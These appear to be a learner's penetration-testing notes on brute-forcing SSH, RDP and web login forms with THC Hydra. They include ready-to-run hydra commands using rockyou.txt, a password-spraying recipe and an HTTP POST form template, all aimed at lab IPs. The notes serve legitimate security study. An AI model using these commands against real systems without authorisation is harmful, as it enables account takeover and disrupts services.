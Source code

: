 Attacking Newwork Services Login

common SSH and RDP services using THC Hydra

popular rockyou.txt

first always nmap -p- and nmap -sV for intresting ports

need to prepare rockyou.txt since it is compressed

gzip -d rockyou.txt.gz
uncompress

hydra -l <user name> -P /usr/share/wordlists/rockyou.txt -s <port> <portocol>://<IP>

eg:

hydra -l george -P /usr/share/wordlists/rockyou.txt -s 22 ssh://192.168.50.201

we can enumerate for username or attack build-in accounts such as root or Administrator


Password spraying: single password against a variety of usernames 

for pssword sprarying to work like brute forcing password the username must exist in the wordlist

we can append the wordlist using echo -e "<name>\n<name>\n<name>..." | sudo tee -a /usr/share/wordlists/dirb/others/name.txt

hydra -L /usr/share/wordlists/dirb/others/name.txt -p "<password>" <service>://<ip>

if we id usernames and passwords we can leverage passwords we discover by spraying them aginst target systems, this might reveal password reuse

dictionary attacks generate a lot of noise, large amount of net traffic can bring unstability to prod and prompt security to respond

note that -p != -P and that -l != -L
use captial letters for list and small letter for single element


HTTP POST login

if login into a web server is the only way of interaction then a dictionary attack is required

most web service has a default user account like admin

using Burp
we'll first capture the POST login attempt 
we'll need to provide the POST request to hydra

we'll also need to ID a failed login attemp, we'll capture the failed txt and present to hydra

using http-post-form "<login>:<POST request>:<failed message>"

eg:
hydra -l user -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

^PASS^ for password placeholder


Password Cracking Fundamentals

